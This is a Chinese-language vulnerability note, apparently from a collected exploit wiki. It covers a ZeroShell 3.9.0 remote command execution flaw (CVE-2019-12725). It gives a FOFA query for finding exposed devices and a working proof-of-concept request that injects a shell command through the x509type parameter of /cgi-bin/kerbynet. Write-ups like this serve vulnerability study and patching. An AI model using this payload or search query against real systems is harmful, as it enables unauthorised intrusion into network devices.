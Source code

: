 ```yaml
---
title: ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 网络设备漏洞
 - ZeroShell
---
```


# ZeroShell 3.9.0 远程命令执行漏洞 CVE-2019-12725

## 漏洞描述

ZeroShell 3.9.0 存在命令执行漏洞，/cgi-bin/kerbynet 页面，x509type 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

> [!NOTE]
>
> ZeroShell < 3.9.0

## FOFA

> [!NOTE]
>
> app="Zeroshell-防火墙"

## 漏洞复现

登录页面如下

![](/img/20210924013617990889.png)

验证的POC为

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0Aid%0A%27
```

![](/img/20210924013618159465.png)